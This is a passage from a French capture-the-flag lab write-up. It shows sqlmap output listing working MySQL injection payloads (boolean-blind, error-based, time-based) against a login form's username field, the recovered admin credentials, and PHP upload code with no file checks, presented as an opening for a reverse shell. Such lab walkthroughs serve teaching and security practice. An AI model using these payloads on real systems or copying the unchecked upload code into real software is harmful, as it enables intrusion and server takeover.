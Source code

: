 ```console
[02:02:02] [INFO] POST parameter 'username' is 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)' injectable 
--snip--
[02:02:02] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 OR time-based blind' injectable 
--snip--
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 415 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=test' RLIKE (SELECT (CASE WHEN (8038=8038) THEN 0x74657374 ELSE 0x28 END))-- vYhy&password=test

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: username=test' OR ROW(4885,3269)>(SELECT COUNT(*),
    CONCAT(0x717a706a71,(SELECT (ELT(4885=4885,1))),0x716b707671,FLOOR(RAND(0)*2))x
    FROM (SELECT 7990 UNION SELECT 7409 UNION SELECT 4553 UNION SELECT 5896)a GROUP BY x)-- qGuh&password=test

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=test' OR SLEEP(5)-- RtzG&password=test
---
[02:02:02] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 5.10
web application technology: PHP 5.2.6, Apache 2.2.3
back-end DBMS: MySQL >= 4.1
```

## Formulaire d'upload et reverse shell

Le couple d'identifiants ```admin:adminpass``` permet de se connecter en tant qu'administrateur sur la plate-forme. Celui-ci a la possibilité de créer des articles sur le site, et d'y adjoindre une image via un formulaire d'upload. Or cette fonctionnalité n'est pas filtrée, car après plusieurs tests, on constate qu'aucune vérification n'est en place, sur l'extension ou le type du fichier.

![Affichage de l'image CTF6_admin_view.png](images/CTF6_admin_view.png)

Extrait du fichier ```add_event.php``` sur la fonctionnalité d'upload.

```php
if (isset($_FILES['upload'])) {
		$uploaddir = 'files/';
		$uploadfile = $uploaddir . basename($_FILES['upload']['name']);
		if (! move_uploaded_file($_FILES['upload']['tmp_name'], $uploadfile)) {
			$log->append("Log upload problem with file array: $_FILES");
			$log->append("Upload file name: $uploadfile");
			$log->append("Upload file tmp name: " . $_FILES['upload']['tmp_name']);
		}
	}
```
